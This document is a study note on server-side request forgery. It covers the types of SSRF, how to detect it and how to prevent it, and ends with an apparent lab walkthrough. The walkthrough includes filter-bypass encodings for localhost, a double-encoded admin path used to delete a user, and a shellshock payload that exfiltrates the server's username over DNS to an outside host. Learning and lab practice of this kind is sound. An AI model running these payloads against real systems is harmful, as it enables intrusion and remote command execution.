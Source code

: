 # Server Side Request Forge

## Server Side Request Forgery

> * An attacker tricks a web application into making requests to internal servers or external servers and exploit that server&#x20;
> * An attacker tricks the web application without validation the user supplied input this allow the attacker to cause the server into making network connection on behalf on attacker&#x20;

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

### TYPES

#### Regular / In Band

> Attackers trick the URL, and the request URL is display back to as a response.

#### Blind / OutofBand

> Attackers trick the URL, and the request is successfully executed, however the response doesn’t response back. To get the response used the DNS or http request to an attacker control server and if get request means its vulnerable.

#### IMPACT

> Leads to sensitive information disclosing, scanning of internal network, compromise the internal service, remote code execution etc.

### Identifying

* Map the application >> visit every page, walk through every page, make notes of all the input that talk to backend, understand how the application functions, understand the logic and business of the application.
* For request parameter modify the value and fuzz the parameter and see how the application response
* If a defense is in place attempt to using know techniques.
* For request parameter, modify the value to a server on the internet that attacker controls and monitor the server incoming request.

### TYPES&#x20;

### In-Band SSRF

* When testing for in-band SSRF if the web application allows user-supplied malicious URLs, Check whether port numbers can be accessed. If the application permits port scanning, then use Burp Intruder to scan for opens ports and attempts to connect to other services, such as using the loopback address (127.0.0.1 or localhost).
* In Cases where the web application does not allow user-supplied URLs, different encoding methods might bypass blacklists
  * For example: The decimal encoded version of 127.0.0.1 is 2130706433, and 127.1 also resolves to 127.0.0.1. An octal representation can be used, like 01770000001 for 127.0.0.1.&#x20;
* Another method is DNS rebinding, where a domain name is registered to resolve to an internal IP address. In DNS rebinding, an initial request resolves to an external IP, and the application allows it. However, subsequent requests resolve to an internal IP (e.g., 127.0.0.1), bypassing internal IP restrictions.&#x20;
* Alternatively, a server under your control can redirect requests to an internal IP address via HTTP redirection.&#x20;

### Blind SSRF

* Blind SSRF occurs when the application does not display the response from the SSRF request.
* In such cases, attempt to trigger an HTTP request to an external server you control. If the server logs a request, the application is vulnerable. If no response is observed, additional testing may be required to confirm. Burp Suite’s Collaborator Everywhere extension can be used for detection.&#x20;

### Prevention

* Defense in Depth Approach: Implement multiple layers of security controls to protect against attacks. These include application layer defenses and network layer defenses, such as firewalls and monitoring tools.
* Application Layer Defenses: Ensure proper input validation and sanitization on both client-side and server-side. Implement strict access controls and monitor for abnormal activity.
* Network Layer Defenses (Firewall): Configure firewalls to block unauthorized outgoing requests and segment the network to limit access to internal services.
* Sanitize and Validate Input: Always sanitize and validate data both at the client and server levels to prevent injection attacks. Avoid relying solely on client-side validation, as it can be bypassed by attackers.
* Use Allow Lists: Implement allow lists for URLs, ports, and destinations to limit where requests can be made. Avoid blacklists, as they can be bypassed by clever attackers.
* Limit HTTP Redirections: Disable or limit unnecessary HTTP redirections, especially when they involve external domains, to prevent Server-Side Request Forgery (SSRF) attacks.

### TESTING

* You attempted to delete the username carlos by using the following URL: /admin/delete?username=carlos
* &#x20;While testing, you identified an IP address range from 192.168.0.1 to 192.168.0.255. By using Burp Intruder, you found that 192.168.0.201 returned a 404 Not Found error.
* then used the URL: [http://192.168.0.201/admin/delete?username=carlos](http://192.168.0.201/admin/delete?username=carlos) to attempt the deletion.
* There was a blacklist in place, but it was bypassed by using a double URL encoding trick: 127.1/%25%36%31dmin/delete?username=carlos
* In this case, "admin" was encoded, allowing you to bypass the block and delete the user carlos.
* The application only allowed requests from specific stakeholders. You attempted to bypass this by adding a modified parameter: username@stackhold, which was accepted and returned different results.
* You then tried: username#@stackhold/admin
* Here, the hash (#) was double URL encoded. The application parsed username as the parameter, and /admin was interpreted as a directory, bypassing the restrictions.
* During this process, using Burp Collaborator, you found an Out-Of-Band (OOB) Server-Side Request Forgery (SSRF) vulnerability within the User-Agent header. To further exploit this vulnerability, you injected a shellshock payload:

{% code overflow="wrap" %}
```
() { :;}; /usr/bin/nslookup $(whoami).5w2o34fecrsrt5l2ygkcy840trzin8bx.oastify.com
```
{% endcode %}

* This payload forced the server to execute the nslookup command, revealing the server’s username via an out-of-band DNS request to the provided oastify.com domain
